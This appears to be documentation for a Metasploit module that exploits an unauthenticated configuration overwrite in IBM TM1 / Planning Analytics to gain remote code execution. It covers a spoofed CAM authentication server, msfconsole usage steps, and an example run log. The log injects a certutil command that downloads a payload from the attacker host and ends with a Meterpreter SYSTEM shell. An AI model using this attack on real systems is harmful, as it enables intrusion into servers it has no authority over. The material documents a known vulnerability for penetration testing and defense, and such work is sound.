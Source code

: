## Module description
This module exploits a vulnerability in IBM TM1 / Planning Analytics that allows an unauthenticated attacker to perform a configuration overwrite.
It starts by quering the Admin server for the available applications, picks one, and then exploits it. You can also provide an application name to bypass this.
The configuration overwrite is used to change an application server authentication method to "CAM", a proprietary IBM auth method, which is simulated by the exploit.
The exploit then performs a fake authentication as admin, and finally abuses TM1 scripting to perform a command injection as root or SYSTEM. 

Testing was done on IBM PA 2.0.6 and IBM TM1 10.2.2 on Windows and Linux. 

Versions up to and including PA 2.0.8 are vulnerable. It is likely that versions earlier than TM1 10.2.2 are also vulnerable (10.2.2 was released in 2014).

Users are encouraged to share success stories with the module author. For more information, check the full advisory at https://raw.githubusercontent.com/pedrib/PoC/master/advisories/ibm-tm1-rce.txt.


## What does this module do
This module starts by querying the Admin server, which usually runs on port 5498 with SSL enabled, or 5495 without SSL. This can be queried by a normal client without authentication, and with that we retrieve a list of applications, the servers where they are running, the ports where they are running, and if they use SSL or not.

Note that there might be cases where the applications do not run on the same host as the Admin server; however this is expected to be rare. Even in that case, the exploit should work perfectly, as it uses the information from the Admin server to connect to the Application server host, and automatically sets up SSL if needed.

If you know the application name, port and SSL status, you can enter this directly into the exploit, which then will not perform the Admin server query. For this, enter the application port in the RPORT option, whether it uses SSL or not in the SSL option, and finally set APP_NAME to the application name.

## Vulnerable Application

To obtain the vulnerable application you need an official IBM installer for IBM Planning Analytics or IBM TM1. This exploit works perfectly for both Windows and Linux targets.

## Verification Steps
  1. Install the application
  2. Start msfconsole
  3. Do: ```use [module path]```
  4. Do: ```set srvhost [lhost]```
  5. Do: ```set target [0|1]```
  6: Do: ```set rhost [rhost]```
  7. Do: ```run```
  8. You should get a shell.
  
  
## Example run
```
[*] Started reverse TCP handler on 192.168.1.1:4444
[*] 192.168.1.138:5498 - Connecting to admin server and obtaining application data
[+] 192.168.1.138:5498 - Found app GO_New_Stores tcp ip: 192.168.1.138 port: 45557 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app GO_Scorecards tcp ip: 192.168.1.138 port: 54321 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app Planning Sample tcp ip: 192.168.1.138 port: 12345 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app proven_techniques tcp ip: 192.168.1.138 port: 17797 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app SData tcp ip: 192.168.1.138 port: 12346 available: 1 SSL: 1
[*] 192.168.1.138:5498 - Picked SData as our target, connecting...
[+] 192.168.1.138:5498 - Current auth method is 1, we're good to go!
[*] 192.168.1.138:5498 - Starting up the fake CAM server...
[*] 192.168.1.138:5498 - Using URL: http://192.168.1.1:4466/
[*] 192.168.1.138:5498 - Changing authentication method to 4 (CAM auth)
[*] 192.168.1.138:5498 - Authenticating using CAM Passport and our fake CAM Service...
[+] 192.168.1.138:5498 - CAM: Received first CAM query, responding with account info
[+] 192.168.1.138:5498 - CAM: Received second CAM query, responding with session info
[+] 192.168.1.138:5498 - CAM: Received third CAM query, responding with random garbage
[*] 192.168.1.138:5498 - Creating our Process object...
[*] 192.168.1.138:5498 - Adding command :"certutil.exe -urlcache -split -f http://192.168.1.1:4466/ C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Adding command :"C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Registering the Process object under the name 'cRKnsLzFFwDI'
[*] 192.168.1.138:5498 - Now let's execute the Process object!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[*] Sending stage (180291 bytes) to 192.168.1.138
[*] Meterpreter session 6 opened (192.168.1.1:4444 -> 192.168.1.138:49306) at 2020-03-27 12:24:55 +0700
[*] 192.168.1.138:5498 - Restoring original authentication method 1
[*] 192.168.1.138:5498 - Server stopped.
[!] 192.168.1.138:5498 - This exploit may require manual cleanup of 'C:\Windows\Temp\KWFUmh.exe' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...
```

## Options
  - SSL: whether to use SSL to connect to the Admin / Application server (default true)
  - APP_NAME: application name to use to connect directly, bypassing Admin server query (default unset).
  - AUTH_ATTEMPTS: number of attempts to authentication to the fake CAM server (default 10)

## Author
Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security
